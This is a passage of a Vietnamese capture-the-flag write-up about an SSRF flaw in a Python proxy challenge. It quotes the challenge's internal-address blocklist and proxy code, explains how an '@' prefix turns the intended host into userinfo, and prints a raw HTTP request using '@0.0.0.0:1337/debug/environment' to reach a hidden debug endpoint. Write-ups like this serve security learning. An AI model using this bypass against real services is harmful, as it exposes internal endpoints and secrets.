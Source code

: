 - Nó nhận get vả post với param url -> thiết lập `target_url = f'http://{SITE_NAME}{url}'` mặc định là host của reddit -> sau đó gửi request đến.
- Vậy làm sao để nó gọi đến /debug/environment -> chỉ cần nó gọi đến endpoint này là sẽ access được FLAG và hiển thị.

- Quan sát 1 chút về uri :

![image](https://hackmd.io/_uploads/BkhuQ7hUC.png)

- có thể thấy phần host sẽ luân đứng như hình và sau dấu @ vậy nếu ta thêm @ vào trước url param và sau đó là localhost thì lúc này nó nhận phần trước là user và info -> bypass được localhost.

- Chú ý black-list:


```

RESTRICTED_URLS = ['localhost', '127.', '192.168.', '10.', '172.']
def proxy_req(url):    
    method = request.method
    headers =  {
        key: value for key, value in request.headers if key.lower() in ['x-csrf-token', 'cookie', 'referer']
    }
    data = request.get_data()

    response = requests.request(
        method,
        url,
        headers=headers,
        data=data,
        verify=False
    )

    if not is_safe_url(url) or not is_safe_url(response.url):
        return abort(403)
    
    return response, headers
```

### Exploit
![image](https://hackmd.io/_uploads/Bk9MBX28C.png)


```
GET /?url=@0.0.0.0:1337/debug/environment HTTP/1.1
Host: 94.237.49.212:30902
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=1


```
